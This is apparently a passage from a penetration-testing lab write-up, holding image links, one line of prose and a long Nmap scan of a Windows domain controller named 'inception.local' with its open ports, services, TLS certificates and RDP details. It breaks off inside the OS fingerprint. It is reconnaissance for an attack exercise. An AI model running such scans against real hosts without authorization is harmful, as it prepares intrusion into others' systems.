






Same here we can run the NMAP to check the server.

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-06-24 16:16:03Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: inception.local, Site: Default-First-Site-Name)
|_ssl-date: 2024-06-24T16:17:35+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=indc.inception.local
| Subject Alternative Name: DNS:indc.inception.local, DNS:inception.local, DNS:inception
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2020-08-21T11:28:07
| Not valid after:  2021-08-21T11:28:07
| MD5:   c58c:09f2:0797:5108:1bed:d17f:781b:855f
| SHA-1: 9f33:f2d2:a0fa:3241:9304:f9c6:23ca:d6d8:1fe4:ad06
| -----BEGIN CERTIFICATE-----
| MIIE9jCCBJygAwIBAgITJgAAC6G1dOFby2nz8wAAAAALoTAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjAwODIxMTEyODA3WhcNMjEwODIxMTEyODA3
| WjAfMR0wGwYDVQQDExRpbmRjLmluY2VwdGlvbi5sb2NhbDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAKXO3bVhce/L1wevh4/BaLRqc0aEH+y6KInKQ3bc
| nu5/cdsSOMk8XHGEkXLca/+gdhAcum0D/ezSzcQbhI1sxoqw/yHdZ0R5BItycgSW
| 398wJxWGpM6c/53ZURE7CtsAAZfFirSLMhgsJU5aueJbX4OoohIiDKGagF0mrokh
| MyTEFwRDpne3MlRmgEGTthzJ+jLu4YKzf4NPg6kVvjApuQLHZ45oDMAUcOziZ3re
| 5MIuuP2z2RrCIky/8y3+xjfvXmZAuopKcrJJIjznFGF/o3pcrfPrKOPWwFoP19Ev
| mLW5jdoKTTaZJU3pWrbZQQGQMZXLBkKKGURVh3eqU37sxXUCAwEAAaOCAsgwggLE
| MDwGCSsGAQQBgjcVBwQvMC0GJSsGAQQBgjcVCIe7lTSfkTOGiY04hNadZoHVxCNp
| gr/1MYf5/G0CAWQCARIwMgYDVR0lBCswKQYHKwYBBQIDBQYKKwYBBAGCNxQCAgYI
| KwYBBQUHAwEGCCsGAQUFBwMCMA4GA1UdDwEB/wQEAwIFoDBABgkrBgEEAYI3FQoE
| MzAxMAkGBysGAQUCAwUwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEF
| BQcDAjAdBgNVHQ4EFgQUl1S5MJVgpLisy0w73UsaQrhyRJQwHwYDVR0jBBgwFoAU
| MQqjBPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxk
| YXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJl
| cixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0
| Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGn
| BggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNz
| PWNlcnRpZmljYXRpb25BdXRob3JpdHkwOwYDVR0RBDQwMoIUaW5kYy5pbmNlcHRp
| b24ubG9jYWyCD2luY2VwdGlvbi5sb2NhbIIJaW5jZXB0aW9uMAoGCCqGSM49BAMC
| A0gAMEUCIQCf9EixiSDJ5XANfvSYZJrNT3ihBdom7L8/oLxddl2B9QIgXQlXi+Ml
| fhtRJ5SUUiY7DofYNrhPl7N6oJ8ke4hvOHU=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: inception.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=indc.inception.local
| Subject Alternative Name: DNS:indc.inception.local, DNS:inception.local, DNS:inception
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2020-08-21T11:28:07
| Not valid after:  2021-08-21T11:28:07
| MD5:   c58c:09f2:0797:5108:1bed:d17f:781b:855f
| SHA-1: 9f33:f2d2:a0fa:3241:9304:f9c6:23ca:d6d8:1fe4:ad06
| -----BEGIN CERTIFICATE-----
| MIIE9jCCBJygAwIBAgITJgAAC6G1dOFby2nz8wAAAAALoTAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjAwODIxMTEyODA3WhcNMjEwODIxMTEyODA3
| WjAfMR0wGwYDVQQDExRpbmRjLmluY2VwdGlvbi5sb2NhbDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAKXO3bVhce/L1wevh4/BaLRqc0aEH+y6KInKQ3bc
| nu5/cdsSOMk8XHGEkXLca/+gdhAcum0D/ezSzcQbhI1sxoqw/yHdZ0R5BItycgSW
| 398wJxWGpM6c/53ZURE7CtsAAZfFirSLMhgsJU5aueJbX4OoohIiDKGagF0mrokh
| MyTEFwRDpne3MlRmgEGTthzJ+jLu4YKzf4NPg6kVvjApuQLHZ45oDMAUcOziZ3re
| 5MIuuP2z2RrCIky/8y3+xjfvXmZAuopKcrJJIjznFGF/o3pcrfPrKOPWwFoP19Ev
| mLW5jdoKTTaZJU3pWrbZQQGQMZXLBkKKGURVh3eqU37sxXUCAwEAAaOCAsgwggLE
| MDwGCSsGAQQBgjcVBwQvMC0GJSsGAQQBgjcVCIe7lTSfkTOGiY04hNadZoHVxCNp
| gr/1MYf5/G0CAWQCARIwMgYDVR0lBCswKQYHKwYBBQIDBQYKKwYBBAGCNxQCAgYI
| KwYBBQUHAwEGCCsGAQUFBwMCMA4GA1UdDwEB/wQEAwIFoDBABgkrBgEEAYI3FQoE
| MzAxMAkGBysGAQUCAwUwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEF
| BQcDAjAdBgNVHQ4EFgQUl1S5MJVgpLisy0w73UsaQrhyRJQwHwYDVR0jBBgwFoAU
| MQqjBPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxk
| YXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJl
| cixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0
| Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGn
| BggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNz
| PWNlcnRpZmljYXRpb25BdXRob3JpdHkwOwYDVR0RBDQwMoIUaW5kYy5pbmNlcHRp
| b24ubG9jYWyCD2luY2VwdGlvbi5sb2NhbIIJaW5jZXB0aW9uMAoGCCqGSM49BAMC
| A0gAMEUCIQCf9EixiSDJ5XANfvSYZJrNT3ihBdom7L8/oLxddl2B9QIgXQlXi+Ml
| fhtRJ5SUUiY7DofYNrhPl7N6oJ8ke4hvOHU=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-24T16:17:35+00:00; +4s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: inception.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=indc.inception.local
| Subject Alternative Name: DNS:indc.inception.local, DNS:inception.local, DNS:inception
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2020-08-21T11:28:07
| Not valid after:  2021-08-21T11:28:07
| MD5:   c58c:09f2:0797:5108:1bed:d17f:781b:855f
| SHA-1: 9f33:f2d2:a0fa:3241:9304:f9c6:23ca:d6d8:1fe4:ad06
| -----BEGIN CERTIFICATE-----
| MIIE9jCCBJygAwIBAgITJgAAC6G1dOFby2nz8wAAAAALoTAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjAwODIxMTEyODA3WhcNMjEwODIxMTEyODA3
| WjAfMR0wGwYDVQQDExRpbmRjLmluY2VwdGlvbi5sb2NhbDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAKXO3bVhce/L1wevh4/BaLRqc0aEH+y6KInKQ3bc
| nu5/cdsSOMk8XHGEkXLca/+gdhAcum0D/ezSzcQbhI1sxoqw/yHdZ0R5BItycgSW
| 398wJxWGpM6c/53ZURE7CtsAAZfFirSLMhgsJU5aueJbX4OoohIiDKGagF0mrokh
| MyTEFwRDpne3MlRmgEGTthzJ+jLu4YKzf4NPg6kVvjApuQLHZ45oDMAUcOziZ3re
| 5MIuuP2z2RrCIky/8y3+xjfvXmZAuopKcrJJIjznFGF/o3pcrfPrKOPWwFoP19Ev
| mLW5jdoKTTaZJU3pWrbZQQGQMZXLBkKKGURVh3eqU37sxXUCAwEAAaOCAsgwggLE
| MDwGCSsGAQQBgjcVBwQvMC0GJSsGAQQBgjcVCIe7lTSfkTOGiY04hNadZoHVxCNp
| gr/1MYf5/G0CAWQCARIwMgYDVR0lBCswKQYHKwYBBQIDBQYKKwYBBAGCNxQCAgYI
| KwYBBQUHAwEGCCsGAQUFBwMCMA4GA1UdDwEB/wQEAwIFoDBABgkrBgEEAYI3FQoE
| MzAxMAkGBysGAQUCAwUwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEF
| BQcDAjAdBgNVHQ4EFgQUl1S5MJVgpLisy0w73UsaQrhyRJQwHwYDVR0jBBgwFoAU
| MQqjBPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxk
| YXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJl
| cixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0
| Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGn
| BggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNz
| PWNlcnRpZmljYXRpb25BdXRob3JpdHkwOwYDVR0RBDQwMoIUaW5kYy5pbmNlcHRp
| b24ubG9jYWyCD2luY2VwdGlvbi5sb2NhbIIJaW5jZXB0aW9uMAoGCCqGSM49BAMC
| A0gAMEUCIQCf9EixiSDJ5XANfvSYZJrNT3ihBdom7L8/oLxddl2B9QIgXQlXi+Ml
| fhtRJ5SUUiY7DofYNrhPl7N6oJ8ke4hvOHU=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-24T16:17:35+00:00; +4s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: inception.local, Site: Default-First-Site-Name)
|_ssl-date: 2024-06-24T16:17:35+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=indc.inception.local
| Subject Alternative Name: DNS:indc.inception.local, DNS:inception.local, DNS:inception
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2020-08-21T11:28:07
| Not valid after:  2021-08-21T11:28:07
| MD5:   c58c:09f2:0797:5108:1bed:d17f:781b:855f
| SHA-1: 9f33:f2d2:a0fa:3241:9304:f9c6:23ca:d6d8:1fe4:ad06
| -----BEGIN CERTIFICATE-----
| MIIE9jCCBJygAwIBAgITJgAAC6G1dOFby2nz8wAAAAALoTAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjAwODIxMTEyODA3WhcNMjEwODIxMTEyODA3
| WjAfMR0wGwYDVQQDExRpbmRjLmluY2VwdGlvbi5sb2NhbDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAKXO3bVhce/L1wevh4/BaLRqc0aEH+y6KInKQ3bc
| nu5/cdsSOMk8XHGEkXLca/+gdhAcum0D/ezSzcQbhI1sxoqw/yHdZ0R5BItycgSW
| 398wJxWGpM6c/53ZURE7CtsAAZfFirSLMhgsJU5aueJbX4OoohIiDKGagF0mrokh
| MyTEFwRDpne3MlRmgEGTthzJ+jLu4YKzf4NPg6kVvjApuQLHZ45oDMAUcOziZ3re
| 5MIuuP2z2RrCIky/8y3+xjfvXmZAuopKcrJJIjznFGF/o3pcrfPrKOPWwFoP19Ev
| mLW5jdoKTTaZJU3pWrbZQQGQMZXLBkKKGURVh3eqU37sxXUCAwEAAaOCAsgwggLE
| MDwGCSsGAQQBgjcVBwQvMC0GJSsGAQQBgjcVCIe7lTSfkTOGiY04hNadZoHVxCNp
| gr/1MYf5/G0CAWQCARIwMgYDVR0lBCswKQYHKwYBBQIDBQYKKwYBBAGCNxQCAgYI
| KwYBBQUHAwEGCCsGAQUFBwMCMA4GA1UdDwEB/wQEAwIFoDBABgkrBgEEAYI3FQoE
| MzAxMAkGBysGAQUCAwUwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEF
| BQcDAjAdBgNVHQ4EFgQUl1S5MJVgpLisy0w73UsaQrhyRJQwHwYDVR0jBBgwFoAU
| MQqjBPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxk
| YXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJl
| cixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0
| Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGn
| BggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNz
| PWNlcnRpZmljYXRpb25BdXRob3JpdHkwOwYDVR0RBDQwMoIUaW5kYy5pbmNlcHRp
| b24ubG9jYWyCD2luY2VwdGlvbi5sb2NhbIIJaW5jZXB0aW9uMAoGCCqGSM49BAMC
| A0gAMEUCIQCf9EixiSDJ5XANfvSYZJrNT3ihBdom7L8/oLxddl2B9QIgXQlXi+Ml
| fhtRJ5SUUiY7DofYNrhPl7N6oJ8ke4hvOHU=
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=indc.inception.local
| Issuer: commonName=indc.inception.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:32:19
| Not valid after:  2024-12-23T03:32:19
| MD5:   4c1b:e9c2:21f8:befa:c304:c831:355a:0627
| SHA-1: 80dd:fa75:7a5a:aa07:ea6b:ffca:0895:995f:ed2a:4c9f
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQM00s6F6YcbBBxpfFPd1EBDANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRpbmRjLmluY2VwdGlvbi5sb2NhbDAeFw0yNDA2MjMwMzMyMTla
| Fw0yNDEyMjMwMzMyMTlaMB8xHTAbBgNVBAMTFGluZGMuaW5jZXB0aW9uLmxvY2Fs
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsoxLiKlE2L6KZbfrVHU4
| fCa5LgN3Ki+Rnmsv0JKeUuDdDuLhUAUB1vnXlBP3hSNp5N1MmckZahjpUhcRd+NP
| 7O+UXbEimWTNEkmwEJFiR5IzhhkF/NQV+O7Qe54limzA+6lRwv1VFKTDbuvAnm2Y
| 7yoGR5gl5uAK0YPyc2HYOat+ErEntfDGClf+mRV5VZov4aUtJHvBHL/Xy1Guj1qp
| Z2isDVAR22RkzOJOaqRwpUOa8Lg1sVlg546snpW/ejo6rgSg3QK3OVMAd1wynazC
| 303DtMFr7MNLiQKJCgK5FHOunCaUhywkQvt8qK670Hb+9Nu4jOkehJ++Cyg8kCsw
| 5wIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBAFmuBWMr9L0+CGorKgF4Je8ibn0YcoB0CDfT/IWSlMlo
| Xsed/fqgnGKWQ1pjYHN6KIkdKC7rvTMiC6Wh9VjKuvvuxCJ+j4jjLCPrbUX+q9BA
| EMA43x0+dNJmLGKkfXGDeEUDjAnT9dvgusxt2NJSvI9fNU13OvJdp4gQTJxADbQ8
| V/cE4xZFFg7YhDRGuTleAD4hjA/uy7kwZJf11lStFzTyKy6wxJAWCPY7wAkC01YU
| XQUEZl0FUGjA/zmtdk//riiXZxD0oZFEWAZKTV44nOZ/WCVfKvmdk9oRmK1MUln8
| 88st/wT/S7gKnja82MYbvTuke9+r6ihhRYG+/huM7W4=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-24T16:17:35+00:00; +4s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: inception
|   NetBIOS_Domain_Name: inception
|   NetBIOS_Computer_Name: INDC
|   DNS_Domain_Name: inception.local
|   DNS_Computer_Name: indc.inception.local
|   DNS_Tree_Name: inception.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-24T16:16:56+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49690/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49710/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
56953/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=53%CT=%CU=%PV=Y%G=N%TM=66799C1B%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10C%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
